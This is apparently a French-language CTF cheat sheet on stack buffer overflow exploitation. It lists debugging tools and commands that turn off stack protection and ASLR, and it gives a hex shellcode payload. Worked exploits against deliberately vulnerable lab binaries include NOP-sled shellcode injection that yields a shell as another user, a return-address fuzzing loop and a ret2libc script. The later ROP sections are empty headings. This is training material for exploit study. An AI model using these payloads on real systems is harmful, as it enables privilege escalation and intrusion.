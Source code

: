 # Buffer overflow

</br>

## Tools

* Plugin pour gdb : https://github.com/longld/peda
* string xxx
* test eax, eax : caracteristique des comparaisons de strings
* objdump -D buffer_01
* strace
* pmap `pidof xxx`
* PwnTools 
* /usr/share/metasploit-framework/tools/exploit/pattern create.rb -l 2000
* /usr/share/metasploit-framework/tools/exploit/pattern offset.rb -q 0x41424344
* https://github.com/JonathanSalwan/ROPgadget

</br>

### Payloads

#### dash
````
"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"
````

</br>

### Disable securities

````
gcc -fno-stack-protector -z execstack 
Disable ASLR for one binary : setarch `uname -m` -R /root/mybinary
Disable ASLR for the session : echo 0 > /proc/sys/kernel/randomize_va_space
0: off
1: on
2: on (default value)
Disable ASLR:
sysctl -w kernel.randomize_va_space=0 in /etc/sysctl.conf
````

#### compile 32 bit on 64 bit platform

````
apt-get install gcc-multilib
gcc -m32
````

</br>

### gdb

#### Find system address

* source /usr/share/gdb-peda/peda.py
* r
* print system
* find "/bin/sh" all


</br>

## Simple buffer overflow : overwrite a stack variable

````
$ cat buffer_01.c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
  char  tst=0;
  char name[10];

  strcpy(name, argv[1]);
  printf("Hello %s\n", name);
  if (tst=='Z') printf("Pwnd");
  return 0;
}
$ gcc -fno-stack-protector buffer_01.c -o buffer_01
$ buffer_01 ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ
````

</br>

## Internal function call

On regarde les fonctions et leurs adresses
````
$ objdump -D ./strcpy
08048533 <get_flag_1>:
 8048533:	55                   	push   %ebp
 8048534:	89 e5                	mov    %esp,%ebp
 8048536:	83 ec 08             	sub    $0x8,%esp
 8048539:	83 ec 0c             	sub    $0xc,%esp
 804853c:	68 20 86 04 08       	push   $0x8048620
 8048541:	e8 1a fe ff ff       	call   8048360 <system@plt>
 8048546:	83 c4 10             	add    $0x10,%esp
 8048549:	c9                   	leave
 804854a:	c3                   	ret

0804854b <get_flag_2>:
 804854b:	55                   	push   %ebp
 804854c:	89 e5                	mov    %esp,%ebp
 804854e:	83 ec 08             	sub    $0x8,%e
````
get_flag_2 est en 0804854b, on va pousser 0804854b en bout de notre fuzzer, et le faire glisser jusqu'à ce qu'il tombe sur EIP et appelle la fonction get_flag_2
````
$ for i in `seq 1 100`;do echo $i; ./strcpy $(python -c "print 'a'*$i+'\x4b\x85\x04\x08';"); done
````

</br>

## Execute stack payload : before ESP

Context:
- Executable stack
- No canary
- No Address Space Layout Randomization
=> Adresses are hard coded in elf

gcc -z execstack 


Detection à la louche de l'overflow en shell
````
$ for i in `seq 500 510`;do echo $i; ./vuln_basic $(python -c "print 'a'*$i;"); done
````

Detection fine de la position dans gdb
````
gdb
disassemble main
break *0x0804844e
gdb-peda$ run $(python -c "print 'a'*512+'bcdefghijklmnopqrst';")
Stopped reason: SIGSEGV
0x65646362 in ?? ()
=> bcde
gdb-peda$ x/520x $esp
````

On dispose de 512 octets. On va utiliser (512-48) NOP et une payload de 48 octets suivi d'une adresse 1234.
````
 run $(python -c 'print "\x90"*(512-48)+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x01\x02\x03\x04";')
 ````
On vérifie que EIP vaut bien 4x3x2x1
On cherche avec x/520x $esp une adresse dans les nop
"bffffd50"
On l'inverse
"\x50\xfd\xff\xbf" 

On quitte gdb et on fait en shell
````
./vuln_basic  $(python -c 'print "\x90"*(512-48)+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x50\xfd\xff\xbf";')
$ id
uid=1001(user) gid=1001(user) euid=1000(chall) groups=1001(user)
````

</br>

## Execute stack payload : after ESP


On se le refait mais avec la payload après EIP
````
./vuln_basic  $(python -c 'print "\x90"*(512)+"\xc8\xfd\xff\xbf"+"\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81";')
````

</br>

## Stack/Heap non executable -> return to LibC

```
#!/usr/bin/python
import os
import struct

libc_system = struct.pack('<I', 0xaeaeaeae)
libc_binsh  = struct.pack('<I', 0xaeaeaeae)

buffer  = 'A'*64
buffer += libc_system
buffer += 'AAAA'
buffer += libc_binsh

progname ="./buffer_01"
os.environ['VAR']=buffer
os.execve(progname, [progname], os.environ)

````

</br>

## Hide LibC adresse ALSR 32 bits -> bruteforce search 



</br>

## Hide LibC adresse ALSR 64 bits -> information leak (format string vuln)


</br>

## LibC hidden -> Return Oriented Program (ROP)

https://github.com/0vercl0k/rp

</br>

## Randomize location of code -> Blind ROP

[http://www.scs.stanford.edu/brop/]












